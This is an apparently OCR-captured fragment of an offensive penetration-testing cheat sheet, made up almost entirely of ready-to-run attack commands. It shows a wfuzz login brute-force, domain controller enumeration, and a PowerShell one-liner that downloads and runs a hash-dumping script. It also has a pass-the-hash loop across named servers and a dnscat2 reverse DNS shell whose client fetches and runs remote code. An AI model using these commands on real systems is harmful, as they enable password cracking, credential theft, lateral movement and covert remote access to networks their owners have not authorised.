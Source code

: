 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
  <pre>nltest /dclist:<domain> </pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455698-d1504074-ed84-11e7-85ad-c4bb196c9d44.png)
  

  
<b> Get Hashes </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes</pre>

  ![image](https://user-images.githubusercontent.com/7115563/34455769-66cb31bc-ed86-11e7-846e-090647d8e32f.png)
  
  
<b> Check Pass The Hash with multiple servers</b>

<pre>$hosts = @("SVDC1.LAZULI.CORP","SVFILES.LAZULI.CORP","SVHOST1.LAZULI.CORP","SVHOST2.LAZULI.CORP","SVFILES2.LAZULI.CORP")

foreach ($h in $hosts){ Invoke-WMIExec -Target $h -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "hostname" -Verbose }

</pre>

![image](https://user-images.githubusercontent.com/7115563/34455798-0bdc77ec-ed87-11e7-9504-6b9ec6fc2a8d.png)

<b> Run web_delivery with other identity </b>

<pre> runas-cabesha-webdelivery -url [url_webdelivery] -user [url] -pass [pass] </pre>

![cabesha](https://user-images.githubusercontent.com/7115563/42811084-e286eb5a-89b9-11e8-8ec8-b0b8c3980774.jpg)


References: https://www.hacklikeapornstar.com/
  


<a name="revshells"></a><h2> Reverse Shells </h2>

<a name="dns"></a><h3> Reverse DNS Shell with dnscat powershell </h3>

<b> Server </b>

<pre>ruby dnscat2.rb -e open --no-cache tunnel.domain.com</pre>


<b> Client </b>

<pre>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1'); Start-Dnscat2 -Domain tunnel.domain.com -DNSServer 8.8.4.4 </pre>


![dns](https://user-images.githubusercontent.com/7115563/35040679-5a155bfa-fb82-11e7-98ec-ba015e3ad69c.png)

Reference: https://github.com/lukebaggett/dnscat2-powershell


```